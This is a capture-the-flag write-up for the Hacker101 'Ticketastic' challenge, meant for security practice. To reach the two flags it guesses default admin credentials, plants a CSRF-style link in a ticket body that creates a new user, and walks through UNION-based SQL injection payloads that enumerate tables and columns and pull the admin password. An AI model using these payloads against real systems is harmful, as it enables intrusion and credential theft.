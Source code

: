 # Ticketastic

## Description
This write up will show how to solve the CTF for "Ticketastic"

**Difficulty:** Easy

Hints are not being provided for multiple reasons:</br>
1. It is better to figure it out yourself and I don't want to give spoilers, especially if you don't need one
2. It is only possible to get a hint every once in a while, i.e. it is not possible to get all the hints one after another. This will take too much time to "wait" for all the hints

## Solution 1st flag
First check the demo environment. With a lucky guess of `admin:admin` it is possible to login to the admin panel.</br>
Create a new user and see which endpoints are being touched upon.</br>

Stop the demo environment and go to the live environment.</br>
Create a new ticket with the same path:
```
Title: give any name
Body: <a href="http://localhost/newUser?username=testuser&password=password&password2=password">New User</a>
```

This create a link.

Now go to the login page and login with the newly created user.</br>
This will show the flag.

## Solution 2nd flag
The tickets have an id, for example: `ticket?id=1?`</br>
This means there is most probably a database involved.<br>

Try to enumerate the database in the following steps:</br>
`ticket?id=1'` --> doesn't work</br>
`ticket?id=1 and 1=1` --> does work</br>
`ticket?id=1 ORDER BY 1` --> find the number of tables, by increasing the last value, it will show that 3 is the maximum number</br>
`ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--` --> This will show the tables: tickets and users</br>
`ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME=’users’--` --> this will show the columns for the users table: id, username and password</br>
`https://6fd960e3a640236002ac83d0aa6ba585.ctf.hacker101.com/ticket?id=1.1%20UNION%20SELECT%201,password,3%20FROM%20users%20WHERE%20username=%27admin%27--` --> query for the username admin to get the password (it won't give the password, but show the flag)</br>

